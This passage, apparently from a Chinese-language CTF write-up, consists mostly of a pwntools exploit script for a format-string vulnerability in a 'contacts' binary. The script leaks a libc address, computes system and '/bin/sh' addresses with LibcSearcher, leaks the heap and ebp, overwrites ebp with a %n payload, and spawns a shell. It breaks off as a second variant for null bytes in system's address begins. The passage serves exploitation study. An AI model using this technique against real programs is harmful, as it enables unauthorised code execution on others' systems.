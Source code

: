 ```python
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')


## get system addr & binsh_addr
payload = '%31$paaaa'
createcontact('1111', '1111', '111', payload)
printcontact()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('get system addr: ' + hex(system_addr))
log.success('get binsh addr: ' + hex(binsh_addr))
##gdb.attach(sh)

## get heap addr and ebp addr
payload = flat([
    system_addr,
    'bbbb',
    binsh_addr,
    '%6$p%11$pcccc',
])
createcontact('2222', '2222', '222', payload)
printcontact()
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```
system出現0截斷的情況下，exp如下:
```python
from pwn import *
context.log_level="debug"
context.arch="x86"

io=process("./contacts")
binary=ELF("contacts")
libc=binary.libc

def createcontact(io, name, phone, descrip_len, description):
```